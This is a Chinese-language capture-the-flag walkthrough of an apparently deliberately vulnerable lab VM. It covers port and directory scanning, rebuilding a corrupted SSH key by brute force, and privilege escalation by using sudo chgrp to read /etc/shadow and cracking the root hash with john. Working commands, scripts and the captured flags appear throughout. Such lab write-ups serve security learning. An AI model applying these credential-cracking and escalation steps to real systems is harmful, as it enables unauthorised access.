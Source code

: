 > ⏲️ Release Date // 2021-10-20
>
> ✔️ MD5 // f9f5956724247267946fce4d78ac1e4e
>
> ☠ Root // 117
>
> 💀 User // 115

### 主机探测和nmap扫描

全端口扫描

```bash
nmap -sT --min-rate 8000 -p- 192.168.56.128
```

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

指定端口扫描

```bash
nmap -sT -sV -sC -O -p22,80 192.168.56.128
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:f1:ed:84:cc:41:8c:7e:c6:92:a9:b4:29:57:bf:d1 (RSA)
|   256 9f:f3:93:db:72:ff:cd:4d:5f:09:3e:dc:13:36:49:23 (ECDSA)
|_  256 e7:a3:72:dd:d5:af:e2:b5:77:50:ab:3d:27:12:0f:ea (ED25519)
80/tcp open  http    Apache httpd 2.4.51 ((Debian))
|_http-server-header: Apache/2.4.51 (Debian)
|_http-title: Cours PHP & MySQ
```

### web渗透

访问web页面

> Under construction...
>
> but not empty

#### 目录扫描

```bash
gobuster dir -u http://192.168.56.128 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt
```

```
/.php                 (Status: 403) [Size: 279]
/index.php            (Status: 200) [Size: 279]
/.php                 (Status: 403) [Size: 279]
/server-status        (Status: 403) [Size: 279]
/sshnote.txt          (Status: 200) [Size: 117]
```

访问`/sshnote.txt`

> My RSA key is messed up, it looks like 3 capital letters have been replaced by stars.
> Can you try to fix it?
>
> sophie

发现一个人名`sophie`，告诉我们`id_rsa`的三个大写字母被`*`代替

查看cookie

> cG9pc29uZWRnaWZ0LnR4dA==

`base64`解码得到`poisonedgift.txt`

访问得到私钥,发现三个字母没了

![image-20240528221147993](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240528221147993.png)

### 爆破key

生成三个大写字母的组合

```bash
crunch 3 3 ABCDEFGHIJKLMNOPQRSTUVWXYZ > capital.txt
```

```bash
#!/bin/bash

KEYS4DIRECTORY=keys
LETTERS=capital.txt
CORRUPT_KEY=id_rsa

mkdir -p $KEYS4DIRECTORY

for i in $(cat $LETTERS);do
echo $i
clear
sed "s/\*\*\*/$i/" $CORRUPT_KEY > $KEYS4DIRECTORY/$i.rsa
done;
```

### 登录ssh服务

```bash
#!/bin/bash

KEYS4DIRECTORY=keys
LETTERS=capital.txt

echo 设置权限
chmod 600 $KEYS4DIRECTORY/*

echo 检查key

for i in $(ls -1 $KEYS4DIRECTORY/*); do
ssh -i $i sophie@192.168.56.128
echo $i
done
```

```bash
sophie@debian:~$ cat user.txt 
a99ac9055a3e60a8166cdfd746511852
```

```bash
sophie@debian:~$ sudo -l
Matching Defaults entries for sophie on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sophie may run the following commands on debian:
    (ALL : ALL) NOPASSWD: /usr/bin/chgrp
```

### 提权

> chgrp可以修改目录和文件的所属组

将shadow文件改为sophie组

```bash
sudo chhgrp sophie /etc/shadow
```

爆破root的hash

```
root:$1$root$dZ6JC474uVpAeG8g0oh/7.:18917:0:99999:7:::
```

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

> root:barbarita:18917:0:99999:7:::

提权成功，拿到root.txt

```bash
root@debian:~# cat root.txt 
bf3b0ba0d7ebf3a1bf6f2c452510aea2
```

